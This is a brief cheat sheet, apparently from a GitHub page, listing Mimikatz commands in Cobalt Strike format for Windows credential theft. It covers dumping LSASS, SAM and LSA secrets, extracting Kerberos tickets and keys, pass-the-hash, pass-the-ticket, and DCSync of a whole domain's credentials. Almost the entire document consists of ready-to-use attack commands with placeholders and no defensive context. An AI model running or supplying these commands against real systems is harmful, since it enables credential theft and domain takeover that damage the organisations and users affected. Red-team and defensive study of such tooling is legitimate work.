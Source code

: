 ⧉ Copied!

### Mimikatz

```powershell
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
